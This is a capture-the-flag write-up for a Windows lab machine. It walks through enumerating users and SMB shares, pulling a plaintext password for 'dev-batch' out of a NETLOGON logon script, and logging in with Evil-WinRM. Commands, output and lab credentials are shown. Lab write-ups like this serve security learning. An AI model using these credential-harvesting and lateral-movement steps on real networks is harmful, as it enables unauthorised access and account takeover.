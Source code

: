 After gaining access to a user account on the system we need to elevate privileges to a different user. To view all the users on the system we can issue the “net users” command
```
------------------------------------------------------------------------------- 
Administrator            DefaultAccount           dev-batch                 
flag{Ld4P_an0nyMous_     Guest                  krbtgt                    
lara                            magnus                   matt                      
sonny                    svc-netapp               
 
 and issuing a dir C:\Users\

Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
d-----        9/25/2019  10:57 AM                Administrator                                                                                                                                                                                           
d-----       11/16/2019   9:47 AM                dev-batch                                                                                                                                                                                               
d-r---       11/20/2016   5:24 PM                Public                                                                                                                                                                                                  
d-----       11/16/2019  12:10 PM                svc-netapp
```
Our options on who to pivot to are fairly limited, our best option is to see if we can find a user account password and or brute force “dev-batch”'s account login.

Exploring SMB, we can see a number of shares listed
```
smbclient -L //10.10.10.27/ -U svc-netapp  
Enter WORKGROUP\svc-netapp's password:  01234567890
 
        Sharename       Type      Comment 
        ---------       ----      ------- 
        ADMIN$          Disk      Remote Admin 
        C$              Disk      Default share 
        Development     Disk       
        dfs             Disk       
        E$              Disk      Default share 
        IPC$            IPC       Remote IPC 
        NETLOGON        Disk      Logon server share  
        SYSVOL          Disk      Logon server share 
```

Scanning each share is incredibly time consuming, but with the 4 of us actively searching we quickly found drive.vbs located in the NETLOGON share. Reading out the file, we are left with “dev-batch”s user account password
```
Dim oNet 
Set oNet = WScript.CreateObject("WScript.Network") 
 
strDrive = "Q:" 
strShare = "\\megacorp.local\development" 
 
strPer = "FALSE" 
strUsr = "dev-batch" 
strPass = "cNh6uC2xgc7@x" 
 
oNet.MapNetworkDrive strDrive, strShare, strPer, strUsr, strPas
```
With our (hopefully) more privileged user account, we can now access their accounts Using Evil-WinRM we can collect another flag!